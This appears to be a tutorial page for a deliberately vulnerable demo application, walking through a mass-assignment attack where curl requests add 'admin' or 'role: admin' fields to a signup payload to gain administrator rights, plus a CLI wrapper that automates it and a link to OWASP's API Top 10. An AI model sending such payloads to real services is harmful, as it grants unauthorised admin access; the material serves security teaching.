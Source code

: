 # Sign up as administrator

From our reconnaissance we know how to sign up as a user via the API. Attackers will try to elevate their privileges by testing various common patterns for role management. They obviously don't know what exact implementation sits behind the API, so this is a game of trial-and-error.

First, let's try to add a property `admin: true` to the `/auth/signup` payload.  

```bash
curl -X POST http://<hostname>:<port>/auth/signup -H "Content-Type: application/json" -d "{\"email\":\"test1@gmail.com\",\"password\":\"password123\",\"admin\":\"true\"}"
```

We see that the call succeeds and we can log into the web application with this user, but we don't have any elevated rights.

Now, let's try to add a property `role: "admin"`. 

```bash
curl -X POST http://<hostname>:<port>/auth/signup -H "Content-Type: application/json" -d "{\"email\":\"test2@gmail.com\",\"password\":\"password123\",\"role\":\"admin\"}"
```

Again the call succeeds and we can log into the web application. Now we see an extra menu option in the navigation bar at the top. This option provides access to administrator features, in this case the user management screen where we have access to all users in the system. 

![logged in as admin](logged_in_as_admin.png)

For demo convenience, we've also wrapped this as a function in our DELIVER CLI. 

```bash
deliver igotpower <email> <password>
______ _____ _     _____ _   _ ___________
|  _  \  ___| |   |_   _| | | |  ___| ___ \
| | | | |__ | |     | | | | | | |__ | |_/ /
| | | |  __|| |     | | | | | |  __||    /
| |/ /| |___| |_____| |_\ \_/ / |___| |\ \
|___/ \____/\_____/\___/ \___/\____/\_| \_|


Attacking http://<hostname>:<port>/auth/signup

Administrator added
```

In this example we've seen another occurrence of an [OWASP API top 10](https://owasp.org/www-project-api-security/) vulnerability:

- [API1-2019: Mass Assignment](https://github.com/OWASP/API-Security/blob/master/2019/en/src/0xa6-mass-assignment.md) which enables us to add extra - undocumented - properties to the payload, elevating our permissions.